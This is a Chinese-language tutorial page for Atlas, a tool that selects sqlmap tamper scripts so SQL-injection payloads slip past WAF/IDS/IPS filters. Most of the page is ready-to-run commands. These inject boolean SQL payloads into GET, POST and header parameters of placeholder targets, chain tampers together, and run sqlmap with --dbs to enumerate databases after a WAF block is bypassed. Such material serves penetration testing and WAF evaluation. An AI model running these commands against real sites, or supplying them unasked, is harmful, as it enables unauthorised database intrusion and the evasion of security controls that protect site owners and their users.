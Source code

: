 # Atlas修改SQLMap tampers 绕过WAF/IDS/IPS

**Atlas**是一个开源工具，可以修改sqlmap tampers 绕过WAF / IDS / IPS，该工具基于返回的状态码。

### Atlas安装

```text
git clone https://github.com/m4ll0k/Atlas.git atlas
cd atlas
python atlas.py # python3+
```

![](../../.gitbook/assets/atlas01.png)

![](../../.gitbook/assets/atlas02.png)

### 使用

```text
python atlas.py --url http://site.com/index.php?id=Price_ASC --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
```

**注入点（带`%%inject%%`）：**

#### get:

```text
python atlas.py --url http://site.com/index/id/%%10%% --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
```

#### post:

```text
python atlas.py --url http://site.com/index/id/ -m POST -D 'test=%%10%%' --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
```

#### headers:

```text
python atlas.py --url http://site.com/index/id/ -H 'User-Agent: mozilla/5.0%%inject%%' -H 'X-header: test' --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
```

#### 连接tampers:

```text
python atlas.py --url http://site.com/index/id/%%10%% --payload="-1234 AND 4321=4321-- AAAA" --concat "equaltolike,htmlencode" --random-agent -v
```

获取tampers列表：

```text
python atlas.py -g
```

### 例

1. 运行SQLMap：

```text
python sqlmap.py -u 'http://site.com/index.php?id=Price_ASC' --dbs --random-agent -v 3
```

![](../../.gitbook/assets/atlas03.png)

`Price_ASC') AND 8716=4837 AND ('yajr'='yajr` 被WAF / IDS / IPS阻止，现在尝试使用Atlas：

```text
python atlas.py --url 'http://site.com/index.php?id=Price_ASC' --payload="') AND 8716=4837 AND ('yajr'='yajr" --random-agent -v
```

![](../../.gitbook/assets/atlas04.png)

在此刻：

```text
python sqlmap.py -u 'http://site.com/index.php?id=Price_ASC' --dbs --random-agent -v 3 --tamper=versionedkeywords,...
```

### 项目地址

GitHub [https://github.com/m4ll0k/Atlas](https://github.com/m4ll0k/Atlas)

